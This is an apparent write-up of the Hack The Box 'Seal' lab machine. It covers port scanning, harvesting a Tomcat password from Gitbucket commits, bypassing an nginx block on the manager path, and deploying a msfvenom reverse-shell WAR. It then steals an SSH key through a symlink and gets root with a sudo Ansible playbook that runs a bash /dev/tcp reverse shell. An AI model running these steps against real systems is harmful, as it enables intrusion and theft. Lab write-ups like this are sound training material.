 # [Seal](https://app.hackthebox.com/machines/seal)

```bash
nmap -p- --min-rate 10000 10.10.10.250 -Pn
```

![Alt text](img/image.png)

After detection of open ports (22,443,8080), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,443,8080 10.10.10.250
```

![Alt text](img/image-7.png)


While I browse the application, it redirects into 'seal.htb' , that's why I add this into '/etc/hosts' file.

![Alt text](img/image-1.png)


Let's access application on port (8080), that's Gitbucket.

![Alt text](img/image-2.png)


I create an account and try to enumerate for finding sensitive credentials.

Dr4ks:Dr4ks


I can see `seal_market`'s repository is here.

![Alt text](img/image-3.png)


I find sensitive credentials from latest commits.

![Alt text](img/image-4.png)


tomcat:42MrHBf*z8{Z%


While I want to access Tomcat manager via browsing `/manager/html`, nginx blocks this action, to bypass this, I add `;`(semicolon).

![Alt text](img/image-5.png)


After bypass and successful authentication, I see Tomcat manager section.
`url=> /manager;/html`

![Alt text](img/image-6.png)


To get reverse shelll, I need to upload malicious `.war` file, let's create this by using `msfvenom` command.

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.6 lport=1337 -f war -o dr4ks.war
```

![Alt text](img/image-8.png)


There are a lot of erros comes about uploading, we need to add upload processing like below.
`URL=>  /manager/.;/html` should be.

![Alt text](img/image-9.png)


While clicking to my `dr4ks` endpoint, I got reverse shell from port (1337).

![Alt text](img/image-10.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-11.png)


While enumeration, I found two backup files (zipped) on location '/opt/backups/archives'.

Let's get one of them.

1.First, open http server via python.
```bash
python3 -m http.server --bind 10.10.10.250 3169
```

![Alt text](img/image-12.png)

2.Then grab files by visiting URL.

![Alt text](img/image-13.png)


These backup files are generated by `Ansible`, so that they have information from generated (are the same stuff)


I also know that one writeable folder `./uploads`, let's create link from luis folder via `ln` command.

```bash
ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/
```


After this, playbooks works also our link worked.

![Alt text](img/image-14.png)


Let's grab this big data.

I extract all data from here like below.
```bash
gunzip -d .gz file
tar -xvf extracted file
```

Here's private key (id_rsa) file, I change privileges of this and connect into machine.

![Alt text](img/image-15.png)


```bash
chmod 600 id_rsa
ssh -i id_rsa luis@10.10.10.250
```

user.txt

![Alt text](img/image-16.png)


While I doing `sudo -l` command for privilege escalation, it says playbook is privileged action for luis user.

![Alt text](img/image-17.png)


I will exploit by creating this playbook .yaml file.

```yaml
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.16.6/2024 0>&1'
```

Then run this playbook file.

```bash
sudo ansible-playbook dr4ks.yml 
```

![Alt text](img/image-18.png)


I got reverse shell from port (2024).

root.txt

![Alt text](img/image-19.png)
